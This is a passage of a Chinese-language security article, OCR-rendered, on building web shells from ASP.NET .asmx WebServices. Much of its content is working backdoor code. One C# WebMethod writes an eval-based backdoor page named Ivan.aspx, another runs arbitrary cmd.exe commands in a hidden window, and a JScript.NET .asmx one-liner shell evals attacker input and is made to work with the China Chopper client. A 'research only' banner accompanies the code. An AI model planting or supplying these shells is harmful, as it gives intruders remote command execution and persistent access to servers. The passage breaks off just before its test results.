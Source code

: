 | namespace test { [WebService(Namespace = "http://tempuri.org/")] [WebServiceBinding(ConformsTo = WsiProfiles.BasicProfile1_1)] [System.ComponentModel.ToolboxItem(false)] // 若要允许使用 ASP.NET AJAX 从脚本中调用此 Web 服务，请取消注释以下行。 // [System.Web.Script.Services.ScriptService] public class WebService2 : System.Web.Services.WebService { [WebMethod] public string HelloWorld() { return "Hello World"; } } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/12fefac5d31fbac2407903dbce27e8c8.png)

这里声明成一个字符串类型的公共方法HelloWorld，如果此时在方法体内实现创建aspx文件，保存内容为一句话小马的话那么这个WebService就变成了服务后门，依照这个推理就产生了C\#版本的WebService小马，实现了两个功能，一个是创建文件，还有一个是执行CMD命令，核心代码如下：

| [System.ComponentModel.ToolboxItem(false)] [WebMethod] /\*\* Create A BackDoor \*\*/ public string webShell() { StreamWriter wickedly = File.CreateText(HttpContext.Current.Server.MapPath("Ivan.aspx")); wickedly.Write("\<%\@ Page Language=\\"Jscript\\"%\>\<%eval(Request.Item[\\"Ivan\\"],\\"unsafe\\");%\>"); wickedly.Flush(); wickedly.Close(); return "Wickedly"; } [WebMethod] /\*\* Exec Command via cmdShell \*\*/ public string cmdShell(string input) { Process pr = new Process(); pr.StartInfo.FileName = "cmd.exe"; pr.StartInfo.RedirectStandardOutput = true; pr.StartInfo.UseShellExecute = false; pr.StartInfo.Arguments = "/c " + input; pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden; pr.Start(); StreamReader osr = pr.StandardOutput; String ocmd = osr.ReadToEnd(); osr.Close(); osr.Dispose(); return ocmd; } |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


小马运行后执行whoami命令之后以默认XML格式回显数据，如下图

![](media/5a97b52a38ca038719d9467f89542cec.png)

知道原理后就开始着手打造菜刀可用的一句话木马，和一般处理程序类似通过Jscript.Net的eval方法去实现代码执行，根据之前的介绍WebMethod有多个属性并且根据微软的官方文档
<https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-1.1/1tyazy68%28v%3dvs.80%29>
可以得出Jscript.Net中可以使用 WebMethodAttribute 来替代[WebMethod]。

一句话实现的代码如下：

| \<%\@ WebService Language="JScript" class="asmxWebMethodSpy"%\> import System; import System.Web; import System.IO; import System.Web.Services; public class asmxWebMethodSpy extends WebService { WebMethodAttribute function Invoke(Ivan: String) : Void { var I = HttpContext.Current; var Request = I.Request; var Response = I.Response; var Server = I.Server; Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(Ivan); } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


打开浏览器，测试效果如下
